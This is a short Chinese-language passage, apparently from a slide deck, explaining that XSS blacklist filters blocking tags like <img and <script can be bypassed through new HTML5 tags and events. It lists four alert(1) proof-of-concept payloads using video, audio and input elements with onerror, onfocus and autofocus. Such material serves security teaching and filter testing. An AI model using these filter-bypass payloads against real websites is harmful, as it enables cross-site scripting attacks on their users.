

通常开发者会使用XSS黑名单过滤器，以阻止XSS攻击，包含了大多网络上常见的XSS利用的代码，如<img、<script等，但HTML5中引入了很多新的标签属性，如audio和vedio标签，新的标签带来了新的事件，会绕过现有的过滤器，以下为其中一些HTML5存在跨站的标签：
<video> <source onerror=”javascript:alert(1)”>
<video onerror=”javascript:alert(1)”><source>
<audio onerror=”javascript:alert(1)”><source>
<input autofocus onfocus=alert(1)>